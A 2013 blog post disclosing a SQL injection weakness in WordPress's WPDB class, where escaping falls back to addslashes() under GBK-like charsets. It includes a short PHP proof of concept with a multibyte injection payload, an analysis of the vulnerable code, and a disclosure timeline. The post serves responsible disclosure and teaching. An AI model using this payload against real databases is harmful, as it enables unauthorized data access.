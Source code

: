 ```yaml
---
layout: post
title: "Disclosure: WordPress WPDB SQL Injection Vulnerability"
permalink: 2013/07/disclosure-wordpress-wpdb-sql-injection.html
date: 2013-07-16
comments: true
categories:
- Security
tags:
- Disclosure
- Open Source
- PHP
- Security
- SQL Injection
---
```


At the current point in time there exists a very significant SQL Injection vulnerability in the WordPress code base. I want to make it abundantly clear that this does not affect anyone using WordPress "off the shelf". It only is exploitable if you use certain WordPress code outside of a WordPress install. So this is not a very "attackable" vulnerability. Or to put it in other terms, this is a high level vulnerability which has a very low threat level. It is also worth noting that it has not been fixed by WordPress (even 90 days after disclosure).<!--more-->
## Vulnerability Scope

I really want to stress here that the problem here is not that WordPress is insecure. Installed instances are immune to this particular vulnerability due to specifics of the implementation. 

The reason that I am treating this like an actual vulnerability is that I firmly believe that open source projects need to lead by example. That's the big issue that needs to be fixed here... And the vulnerability here is something that is extremely well known and the rest of the industry has moved past...

## The Vulnerability

So let me show the proof-of-concept code here:

```php
// Fill in credentials here:
$host = '';
$user = '';
$pass = '';
$dbname = '';
 
/** Hack Below */
 
function apply_filters($name, $arg) { return $arg; }
 
define('WP_DEBUG', false); // Not necessary
define('DB_CHARSET', ''); // Necessary
 
require_once dirname(__FILE__) . '/wp-includes/wp-db.php';
 
$db = new WPDB($user, $pass, $dbname, $host);
 
$payload = '%' . chr(0xbf) . chr(0x27) . " OR 1=1 /*";
 
$stmt = $db->prepare(
    'SELECT * 
        FROM INFORMATION_SCHEMA.CHARACTER_SETS 
        WHERE CHARACTER_SET_NAME = %s 
        LIMIT 1', 
    $payload
);

var_dump($db->query($stmt));
```

When this code is installed with a specifically configured MySQL server (expecting GBK character set by default), that SQL Injection will work.

So basically any time the character set is not explicitly set by the user and the external site is using a specific class of character sets (GBK and Big5, among others), this is vulnerable.


But let me make it clear again, this is an extremely narrow case that likely directly affects literally 0 applications on the internet. The point of this disclosure is not that people are affected. It's that this should never even be possible in 2013...## The Vulnerable Code

To see why this works, let's take a look at the [WPDB class](https://github.com/WordPress/WordPress/blob/2ac8311b74063e43ca5a1c886ad706e98b6a0910/wp-includes/wp-db.php). 

```php
function escape( $data ) {
    if ( is_array( $data ) ) {
        foreach ( (array) $data as $k => $v ) {
            if ( is_array( $v ) )
                $data[$k] = $this->escape( $v );
            else
                $data[$k] = $this->_weak_escape( $v );
        }
    } else {
        $data = $this->_weak_escape( $data );
    }

    return $data;
}
```

So looking at that, escape just proxies to `_weak_escape()`... And what's `_weak_escape()` you ask?

```php
function _weak_escape( $string ) {
    return addslashes( $string );
}
```

Yeah. So... If you're not aware of the issue here, I HIGHLY recommend reading [this post on addslashes](http://shiflett.org/blog/2006/jan/addslashes-versus-mysql-real-escape-string) by Chris Shiftlett from 2006...

But it gets better! There's a prepare method that simulates prepared statements! Let's look at how that works...

```php
function prepare( $query, $args ) {
    if ( is_null( $query ) )
        return;

    $args = func_get_args();
    /*snip*/
    array_walk( $args, array( $this, 'escape_by_ref' ) );
    return @vsprintf( $query, $args );
}
```


So it calls `escape_by_ref`... Surely that does something sane...?

```php
function escape_by_ref( &$string ) {
    if ( ! is_float( $string ) )
        $string = $this->_real_escape( $string );
}
```


Ok, so now there's a `_real_escape` function? I wonder what that does?

```php
function _real_escape( $string ) {
    if ( $this->dbh && $this->real_escape )
        return mysql_real_escape_string( $string, $this->dbh );
    else
        return addslashes( $string );
}
```


Oh cool! There's `mysql_real_escape_string()`! But wait, there's a conditional... It's checking for a connection (and if there isn't one yet, it's insecurely escaping). Then it's checking if the `real_escape` property is true. I wonder how that's set:

In the `set_charset() `function, it checks a few parts. First, it checks to see if the database supports collations. Then it checks to see if it supports charsets. Then it checks to see if we're explicitly setting a charset. Only then will it switch from `addslashes() `to `mysql_real_escape_string()`:

```php
if ( $this->has_cap( 'collation' ) && ! empty( $charset ) ) {
    if ( function_exists( 'mysql_set_charset' ) && $this->has_cap( 'set_charset' ) ) {
        mysql_set_charset( $charset, $dbh );
        $this->real_escape = true;
    } else {
        $query = $this->prepare( 'SET NAMES %s', $charset );
        if ( ! empty( $collate ) )
            $query .= $this->prepare( ' COLLATE %s', $collate );
        mysql_query( $query, $dbh );
    }
}

```


So if you're using an older version of MySQL (below 5.0.7), you'll never use real_escape_string (ever). If, like in our proof-of-concept script above, you're not explicitly setting the charset, it will never use `mysql_real_escape_string()`.

In short, this is REALLY overly complicated and makes security the edge-case rather than the other way around.## Disclosure Timeline

 * April 17 - Initial report sent to lead developer (at his request)
 * April 17 (10 minutes later) - Response acknowliding issue and discussing potential solution
 * June 23 - I emailed stating intention to disclose on July 1, as it has not been fixed nor has progress been made
 * June 23 (10 minutes later) - Response indicating a plan of action. Promise to send code within 24 hours.
 * June 23 - I agree to delay disclosure to July 16, to give more time.
 * July 14 - I received an email requesting an additional 2 weeks, stating that I would get code "within 24 hours" again.
 * July 14 - I declied the request of an additional 2 weeks, as no progress has been shown other than under threat of disclosure.
 * July 16 - Disclosure (still no code received)


So basically, nothing has happened of significance. Which is why I chose to disclose after 90 days. I initially intended to disclose at 60 days, but decided to delay to 75 as it's not a high threat level. Then, when asked (there was progress to be made), I agreed to delay further to 90 days. But I cannot reasonably agree to go further. There has been 90 days since the original report. The fix is actually pretty straight forward. Simply replace all instances of `addslashes() `with `mysql_real_escape_string()`, and raise an error (or start a database connection) if the connection is not active. It's a 5 line patch (well, 5 lines of logic change, the "cleanup" it will allow is much greater)...


Note: I realize that it might not wind up being a 5 line patch, that there may be some circumstances that warrant more changes. So far I have seen nothing to indicate that this is the case (no evidence of actual issues that need to be solved with the original concept).

## Security Is A Responsibility


I've been quoted before as saying that open source projects have a responsibility to their users and to the greater community to lead by example. This case is one where the WordPress project really needs to learn this lesson.

First, the fact that `addslashes() `exists in a database layer in any form in 2013 is down right disturbing. Disturbing doesn't even describe it. It's simply gross negligence. And what's worse is that it's not that the developers didn't understand the problem. And it's not that they didn't think it was a problem. They agreed it was a problem (albeit a narrow one). And that makes it infinitely worse in my opinion. Because that means it's intentional. And that's inexcusable.

To be clear, I'm not trying to attack the individual developers on the project. The individual developers are indeed smart and rational people. The problem as I see it is the policies and practices that the project as a whole have put in place.


But further is the communication that has happened since reporting. After the initial report, the next response I got was over 2 months later when I threatened to disclose. And I was promised code within 24 hours, which I never got. The next time I heard anything was 2 days before the agreed-upon delayed disclosure date. This is not how to handle one of the largest projects in the world. Even if it is a narrow issue.

Really, I'm quite disapointed here.
